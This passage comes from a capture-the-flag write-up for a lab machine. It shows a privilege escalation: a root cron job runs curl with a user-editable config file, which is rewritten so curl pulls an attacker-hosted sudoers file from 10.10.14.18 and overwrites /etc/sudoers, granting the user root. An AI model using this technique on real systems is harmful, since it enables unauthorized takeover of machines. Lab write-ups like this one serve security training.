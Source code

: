 ```
```
and in 'report' file we can see the following:
```
[... SNIP ...]
# m h  dom mon dow   command
* * * * * curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
* * * * * sleep 1; cat /root/default.txt > /home/floris/admin-area/input
```
Instead of guessing or using this kind of privileged LFI, we can run [pspy64](https://github.com/DominicBreuker/pspy) with user floris and see that we can get the same information retrived above:
```
2021/12/15 22:32:01 CMD: UID=0    PID=4495   | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input
2021/12/15 22:32:01 CMD: UID=0    PID=4494   | /usr/sbin/CRON -f
2021/12/15 22:32:01 CMD: UID=0    PID=4493   | /usr/sbin/CRON -f
2021/12/15 22:32:01 CMD: UID=0    PID=4498   | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```
Now, Obviously now we can cat /root/root.txt file, but we don't want that, we want the shell!  
To achieve this, we can inspect curl manual for -K
```
-K, --config <file>

       Specify a text file to read curl arguments from. The command line arguments found in the text file will be used as if they were provided on the command line.

       [... SNIP ...]

       # --- Example file ---
       # this is a comment
       url = "example.com"
       output = "curlhere.html"
       user-agent = "superagent/1.0"
```
so now we can edit the input file as follows:
```
url = "http://10.10.14.18/sudoers"
output = "/etc/sudoers"
user-agent = "b0d/1.0"
```
And host on our machine a sudoers file containing the following:
```
# User privilege specification
root    ALL=(ALL:ALL) ALL
floris  ALL=(ALL:ALL) ALL
```
so, now, to become root, we can simply:  
```
floris@curling:~/admin-area$ sudo su -
[sudo] password for floris:
root@curling:~# id
uid=0(root) gid=0(root) groups=0(root)
```
and we own root.
